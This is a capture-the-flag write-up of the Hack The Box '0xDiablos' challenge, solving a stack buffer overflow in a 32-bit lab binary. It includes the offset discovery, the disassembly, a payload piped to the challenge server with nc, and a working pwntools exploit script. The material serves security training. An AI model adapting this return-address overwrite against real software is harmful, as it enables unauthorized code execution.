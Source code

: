 # Enumeration

Download file 'You know 0xDiablos.zip' extract file with 7z:

```shell
7z x You\ know\ 0xDiablos.zip                                                                                                       main 

7-Zip [64] 17.04 : Copyright (c) 1999-2021 Igor Pavlov : 2017-08-28
p7zip Version 17.04 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,16 CPUs x64)

Scanning the drive for archives:
1 file, 3058 bytes (3 KiB)

Extracting archive: You know 0xDiablos.zip
--
Path = You know 0xDiablos.zip
Type = zip
Physical Size = 3058

    
Enter password (will not be echoed):hackthebox
Everything is Ok

Size:       15656
Compressed: 3058
```

Take a look on vuln file extracted:
```shell
file vuln                                                                                                                           main 
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=ab7f19bb67c16ae453d4959fba4e6841d930a6dd, for GNU/Linux 3.2.0, not stripped
```

To complete this practice it is necessary to understand buffer overflow. Read the following content, I did some practices with basic c program:

[reto](scripts/follow.md)

To complete is recomended:  ghidra, gdb, python pwn, gdb-peda

Open vuln file with ghidra, check functions and we find flag function with fgets, fgets like others can be overfloaded since var has been defined as char local_50 [64].

```code
void flag(int param_1,int param_2)

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
      printf(local_50);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
Lets create pattern with 200 chars:

```shell
/opt/metasploit/tools/exploit/pattern_create.rb -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

Now try buferoverfload to vuln with this string with gdb:
```shell
gdb ./vuln 
GNU gdb (GDB) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-pc-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./vuln...
(No debugging symbols found in ./vuln)
(gdb) run
Starting program: /home/darthv/git/badorius/vulnhub/0xDiablos/enumeration/vuln 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
You know who are 0xDiablos: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x33674132 in ?? ()
(gdb) 

```

Search offset:
```shell
/opt/metasploit/tools/exploit/pattern_offset.rb -q 33674132 -l 200
[*] Exact match at offset 188
```

Search flag address:
```shell
(gdb) disas flag
Dump of assembler code for function flag:
   0x080491e2 <+0>:	push   %ebp
   0x080491e3 <+1>:	mov    %esp,%ebp
   0x080491e5 <+3>:	push   %ebx
   0x080491e6 <+4>:	sub    $0x54,%esp
   0x080491e9 <+7>:	call   0x8049120 <__x86.get_pc_thunk.bx>
   0x080491ee <+12>:	add    $0x2e12,%ebx
   0x080491f4 <+18>:	sub    $0x8,%esp
   0x080491f7 <+21>:	lea    -0x1ff8(%ebx),%eax
   0x080491fd <+27>:	push   %eax
   0x080491fe <+28>:	lea    -0x1ff6(%ebx),%eax
   0x08049204 <+34>:	push   %eax
   0x08049205 <+35>:	call   0x80490b0 <fopen@plt>
   0x0804920a <+40>:	add    $0x10,%esp
   0x0804920d <+43>:	mov    %eax,-0xc(%ebp)
   0x08049210 <+46>:	cmpl   $0x0,-0xc(%ebp)
   0x08049214 <+50>:	jne    0x8049232 <flag+80>
   0x08049216 <+52>:	sub    $0xc,%esp
   0x08049219 <+55>:	lea    -0x1fec(%ebx),%eax
   0x0804921f <+61>:	push   %eax
   0x08049220 <+62>:	call   0x8049070 <puts@plt>
   0x08049225 <+67>:	add    $0x10,%esp
   0x08049228 <+70>:	sub    $0xc,%esp
   0x0804922b <+73>:	push   $0x0
   0x0804922d <+75>:	call   0x8049080 <exit@plt>
   0x08049232 <+80>:	sub    $0x4,%esp
   0x08049235 <+83>:	push   -0xc(%ebp)
   0x08049238 <+86>:	push   $0x40
   0x0804923a <+88>:	lea    -0x4c(%ebp),%eax
   0x0804923d <+91>:	push   %eax
   0x0804923e <+92>:	call   0x8049050 <fgets@plt>
   0x08049243 <+97>:	add    $0x10,%esp
   0x08049246 <+100>:	cmpl   $0xdeadbeef,0x8(%ebp)
   0x0804924d <+107>:	jne    0x8049269 <flag+135>
   0x0804924f <+109>:	cmpl   $0xc0ded00d,0xc(%ebp)
   0x08049256 <+116>:	jne    0x804926c <flag+138>
   0x08049258 <+118>:	sub    $0xc,%esp
   0x0804925b <+121>:	lea    -0x4c(%ebp),%eax
   0x0804925e <+124>:	push   %eax
   0x0804925f <+125>:	call   0x8049030 <printf@plt>
   0x08049264 <+130>:	add    $0x10,%esp
   0x08049267 <+133>:	jmp    0x804926d <flag+139>
   0x08049269 <+135>:	nop
   0x0804926a <+136>:	jmp    0x804926d <flag+139>
   0x0804926c <+138>:	nop
   0x0804926d <+139>:	mov    -0x4(%ebp),%ebx
   0x08049270 <+142>:	leave  
   0x08049271 <+143>:	ret    
End of assembler dump.
(gdb) 
```

EBP from flag function is: 0x080491e2 = 08 04 91 e2 = \xe2\x91\x04\x08
Now let's generate A with offset number of chars needed concatenate with flag address:

```shell
python2 -c 'print "A" * 188 + "\xe2\x91\x04\x08"' | ./vuln
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAâ
Hurry up and try in on server side.
```

Now try to send to server with nc, but seem doesn't works:

```shell
python2 -c 'print "A" * 188 + "\xe2\x91\x04\x08"'|nc 46.101.53.80 31815
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
```

It's time to play with python, after some research I found python [pwntools](http://docs.pwntools.com/en/latest/). Let's try to run our first python pwn script.
In order to work on server side, we need offset, flag ebp addres, and two parameters  from fu nfunction flag, on ghidra we can get the adresses of both 0xdeadbeef and 0xc0ded00d:
![ghidra parms](IMG/ghidra_parms.jpg)

Lets fun python time: 
 
```python
from pwn import *

offset = b"A" * 188
fourbytes = b"AAAA"
flag_ebp = p32(0x080491e2, endian="little")
parm_one = p32(0xdeadbeef, endian="little")
parm_two = p32(0xc0ded00d, endian="little")
serverip = "178.62.13.127"
port = 30495

exploit = offset + flag_ebp + fourbytes + parm_one + parm_two

server = remote(serverip, port)
#server = elf.process()
server.sendlineafter(":", exploit)
server.interactive()
```

```shell
python pwn_exploit.py                                                                                             main 
[+] Opening connection to 178.62.13.127 on port 30495: Done
/home/darthv/git/badorius/vulnhub/0xDiablos/FootHold/venv/lib/python3.10/site-packages/pwnlib/tubes/tube.py:822: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] Switching to interactive mode
 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd0\xde\xc0\xde
HTB{XXXXXXXXXXXXXXXXXXXXXXX}$       [*] Got EOF while reading in interactive
$  
```

Voilà!!! 
